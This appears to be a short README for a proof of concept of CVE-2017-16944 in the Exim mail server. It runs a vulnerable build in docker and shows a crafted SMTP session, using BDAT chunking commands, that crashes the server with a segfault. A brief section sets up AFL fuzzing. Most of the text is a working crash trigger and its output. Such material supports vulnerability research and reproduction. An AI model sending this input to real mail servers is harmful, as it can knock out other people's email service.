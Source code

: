 # Simple POC with docker image

All in one command:
```
docker run --rm -i exim-16944  < testsuite/cve-2017-16944.txt
```


Run the docker container:
```
docker run -ti exim-16944
```

Then feed it a simple POC:
```
EHLO localhost
MAIL FROM:<test@localhost>
RCPT TO:<test@localhost>
BDAT 10
.
BDAT 0
```

This should do:
```
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
```
This results in a segfault. You don't see it when running under docker this way,
but it's there.


To see the segfault, run two terminals:
1. Terminal a: `docker run -ti exim-16944 bash; /usr/exim/bin/exim -bs -v`
2. Terminal b: The POC above


## Fuzzing with AFL
```
mkdir out
afl-fuzz -x dictionary.txt -i testsuite -o out -- /usr/exim/bin/exim -bs  -v
```
